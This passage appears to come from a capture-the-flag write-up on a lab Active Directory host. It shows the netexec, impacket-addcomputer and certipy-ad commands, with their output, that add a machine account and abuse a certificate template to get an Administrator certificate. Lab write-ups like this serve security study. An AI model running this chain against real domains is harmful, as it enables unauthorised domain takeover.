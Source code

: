 ```
[*] user-desc                 Get user descriptions stored in Active Directory
[*] whoami                    Get details of provided user

HIGH PRIVILEGE MODULES (requires admin privs)
```

`netexec ldap 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!' -M maq`:
```
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
LDAPS       10.10.11.222    636    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! 
MAQ         10.10.11.222    389    AUTHORITY        [*] Getting the MachineAccountQuota
MAQ         10.10.11.222    389    AUTHORITY        MachineAccountQuota: 10 ←
```

Having verified the `MachineAccountQuota`, we now add a computer account using `addcomputer.py` from `Impacket`.

`impacket-addcomputer 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!' -method LDAPS -computer-name 'FAKECOMPUTER' -computer-pass 'FakeComputer!' -dc-ip 10.10.11.222`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account FAKECOMPUTER$ with password FakeComputer!. ←
```

Next, we use this computer account to request a certificate specifying the built-in domain `Administrator` account as the SAN.

`certipy-ad req -u 'FAKECOMPUTER' -p 'FakeComputer!' -dc-ip 10.10.11.222 -upn Administrator@authority.htb -ca AUTHORITY-CA -template CorpVPN`:
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error: The NETBIOS connection with the remote host timed out.
[-] Use -debug to print a stacktrace
```
❌

`certipy-ad req -u 'FAKECOMPUTER' -p 'FakeComputer!' -dc-ip 10.10.11.222 -upn Administrator@authority.htb -ca AUTHORITY-CA -template CorpVPN`:
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with UPN 'Administrator@authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx' ←
```

With the administrator's PFX file in our possession, we can now utilize it for authentication.

`file ./administrator.pfx`:
```
./administrator.pfx: data
```
